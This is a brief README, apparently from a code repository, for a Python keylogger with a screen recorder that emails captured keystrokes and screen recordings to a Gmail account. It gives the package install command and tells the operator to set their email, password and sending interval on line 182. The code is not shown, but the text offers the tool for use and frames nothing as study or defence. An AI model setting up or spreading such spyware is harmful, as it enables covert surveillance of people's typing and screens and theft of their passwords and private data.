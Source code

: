# Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

# Installation

This script requires numpy, pyautogui, opencv, requests, pynput and pypiwin32.

Install packages from console

```bash
pip install numpy pyautogui opencv-python requests pynput pypiwin32
```

# Instructions

- Change 182 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
182. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```

- Run script

